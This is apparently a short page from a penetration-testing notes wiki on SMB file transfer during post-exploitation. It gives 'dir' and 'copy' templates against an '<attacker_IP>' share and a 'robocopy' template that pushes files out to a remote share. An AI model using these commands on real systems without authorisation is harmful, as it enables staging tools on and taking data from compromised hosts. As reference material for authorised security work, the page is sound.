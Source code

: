 # SMB

## 01 - Usage

```
C:\> dir \\<attacker_IP>\<share_name>

C:\> copy \\<attacker_IP>\<share_name>\<source> <destination>
```

For `/mt` flag switch run the command on windows that is related about hardware information from [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Windows/Host/System and Kernel Version/Kernel/Manual/Living off the Land|system and kernel version]] phase.

```
C:\> robocopy <source> \\<IP>\<share_name>\<destination> /s /r:0 /w:0 /copy:DA /dcopy:DA /mt:<threads>
```

---
## References

- [Chris Titus Robocopy](https://www.christitus.com/robocopy)